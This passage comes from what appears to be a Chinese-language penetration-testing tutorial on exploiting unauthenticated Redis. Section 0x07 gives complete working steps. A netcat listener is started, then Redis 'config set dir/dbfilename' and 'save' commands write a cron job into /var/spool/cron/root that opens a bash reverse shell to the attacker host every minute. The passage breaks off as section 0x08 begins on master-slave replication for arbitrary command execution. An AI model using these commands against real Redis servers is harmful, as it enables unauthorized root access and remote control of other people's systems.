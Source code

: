 ![](image/../images/redis-pwn-2.png)

## 0x07 写入定时任务

通过写入定时任务反弹 Shell，获取权限

首先在攻击机监听端口

```bash
nc -lvvp 9999
```

再在目标主机写入定时任务

```bash
192.168.0.126:6379> set test2 "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.0.140/9999 0>&1\n\n"
OK
192.168.0.126:6379> config set dir /var/spool/cron
OK
192.168.0.126:6379> config set dbfilename root
OK
192.168.0.126:6379> save
OK
192.168.0.126:6379>
```

如上写入成功后，等待一分钟即可反弹 Shell

## 0x08 主从复制漏洞利用

- 如果当把数据存储在单个 Redis 的实例中，当读写体量比较大的时候，服务端就会不堪重负。
- 为了应对这种情况，Redis 就提供了主从模式，主从模式就是指使用一个 redis 实例作为主机，其他实例都作为备份机。
- 其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。

Redis 未授权访问在 4.x/5.0.5 以前版本，我们可以使用主/从模式加载远程模块，通过动态链接库的方式执行任意命令。

